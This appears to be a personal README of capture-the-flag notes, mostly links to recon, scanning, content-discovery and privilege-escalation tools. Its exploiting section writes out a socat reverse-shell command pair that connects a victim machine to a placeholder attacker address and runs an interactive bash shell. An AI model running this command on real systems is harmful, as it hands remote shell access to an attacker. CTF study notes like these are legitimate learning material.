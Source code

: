 This repo contains some miscallenious notes/tips for me to use when I do CTFs. Mostly contains list of tools

## Ivestigation

### SSL/TLS Certificates

[Certificate search](https://crt.sh)  
Find certificates by certificate hash, domain name or organization name

NsLookup  
Tool to lookup DNS records

[DNSDumpster](https://dnsdumpster.com)  
Tool for subdomain enumeration.

[Shodan](https://shodan.io)  
Search Engine for Internet connected devices

### Identifying technologies

[OWASP favicon database](https://wiki.owasp.org/index.php/OWASP_favicon_database) - Use favicon md5-sums to find the framework

Wappalyzer - Browser plugin that (I assume) reads HTTP-headers and identifies underlying technologies

[Sublist3r](https://github.com/aboul3la/Sublist3r)  
Subdomain enumerator that uses OSINT

## Enumeration/Scanning

nmap  
Search for open ports in a machine. Automatically look for exploits for the software running in the ports 

Rustscan    
Same as nmap but faster

### Content discovery

[Fuzz Faster u Fool](https://github.com/ffuf/ffuf)  
Find direcotries/VHosts in a website. Can also be used to fuzz GET parameter 

[Gobuster](https://github.com/OJ/gobuster)  
Find directories/DNSs/VHosts in a website

[DNSRecon](https://github.com/darkoperator/dnsrecon)  
DNS Enumeration Script

## Exploiting

More stable shell

### Socat  
On the attacker machine, run the command ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```  
On the victim machine run the command ```socat TCP:<attacker-ip>:<attacker-port> exec:"bash -li",pty,stderr,sigint,setsid,sane```

## Priv Esc

[linPEAS/winPEAS](https://github.com/carlospolop/PEASS-ng)  
Scripts that look for vulnerabilities inside the OS.

[GTFObins](https://gtfobins.github.io/)  
Curated list of Unix binaries that can be used to bypass local security restrictions in a miconfigured system.

## Post exploit


## Misc

[CyberChef](https://gchq.github.io/CyberChef)
